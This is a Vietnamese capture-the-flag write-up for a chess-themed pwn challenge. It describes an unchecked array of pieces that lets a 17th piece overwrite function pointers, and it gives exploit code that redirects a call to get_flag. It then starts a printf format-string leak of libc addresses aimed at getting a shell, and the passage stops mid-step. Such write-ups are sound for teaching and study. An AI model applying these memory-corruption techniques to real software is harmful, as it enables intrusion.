 Bài này mình được cung cấp cả source và hint nên việc tìm ra bug cũng không quá khó.

Hint: **Một người chơi có bao nhiêu quân cờ.**

# **BUG**

Xem qua file source, ta thấy struct player được định nghĩa như sau:
```
typedef struct player {
    int nuoc;
    int quan_luc;
    quan_co c[16];
    void (*di)(struct player *);
    void (*trash_talk)(struct player *);
    void (*them_quan)(struct player *, loai_quan_co, char *, mau_quan_co);
} player;
```
Như vậy, mỗi người chơi sẽ có tối đa 16 quân cờ. Tuy nhiên, đoạn code thêm quân phía bên dưới không kiểm tra số lượng quân cờ của người chơi:
```
switch (read_num()) {
            case 1:
                quan = read_quan();
                dan_do = read_dan_do();
                human->them_quan(human, quan, dan_do, ddo);
                printf("- Đã điều động thêm %s.\n", human->c[human->quan_luc-1].string);
                break;
```
```
void them_quan(player* p, loai_quan_co l, char *dan_do, mau_quan_co mau) {
    init_quan_co(&(p->c[p->quan_luc]), l, dan_do, mau);
    p->quan_luc += 1;
}
```
Điều này dẫn đến người chơi có thể nhập nhiều hơn 16 quân cờ và ghi đè được các hàm *di*, *trash_talk* và *them_quan*

# **Exploit**
## Sử dụng hàm get_flag có sẵn:

Do giới hạn của ctf 3 tiếng nên anh ra đề đã cung cấp sẵn 1 hàm *get_flag* để đọc flag.

Để tận dụng hàm này, ta chỉ cần thêm quân 16 lần, sau đó ở lần thứ 17 sẽ thêm 1 quân có giá trị *dan_do* là địa chỉ của hàm *get_flag*.
Khi đó, hàm *di* sẽ bị ghi đè bởi hàm *get_flag*. Sau đó, gọi hàm *di* để lấy flag:
```
        for i in range(16):
                them_quan("xe", "ahuhi")

# use get_flag
        them_quan("noob", p32(get_flag))

        r.sendline("2")
        r.interactive()
```

## Get shell:

Sau khi mình khai thác sử dụng lại hàm get_flag thành công, mình được khuyến khích là thử tìm cách để lấy được shell xem có được không.

Với zer0 kiến thức về khai thác trên heap, mình khá là betak khúc này. Sau đó, mình được anh @Bảo nói là trong trường hợp này, mình chỉ có thể control được con trỏ lệnh chứ không thể kiểm soát được đối số truyển vào. Do đó, mình phải tìm cách tận dụng lại các đối số này.

Sau một khoảng thời gian bế tắc again, mình có hỏi và nhận được một super hint siêu to khổng lồ từ "ĐẤNG" @HoàngThắng là có thể sử dụng *printf* để leak địa chỉ hàm *__libc_start_main* ở trong stack.

OK, có hint super value rồi, triển khai thôi:

### Leak address:

Sau một thời gian tìm trong source code của bài, mình thấy hàm *read_str* có nhiệm vụ đọc chuỗi vào một địa chỉ truyển vào:
```
void read_str(char *buf, unsigned int size) {
    int ret;
    ret = read(0, buf, size);

    if (ret <= 0) {
        puts("read error");
        exit(1);
    }

    buf[ret-1] = '\x00';
}
```
Vì vậy mình có thể tận dụng lại hàm này để lưu formatstring mình cần vào tại địa chỉ của *human*. Sau đó, ghi đè hàm *di* thành hàm *printf* và gọi nó để leak giá trị bên trong stack:




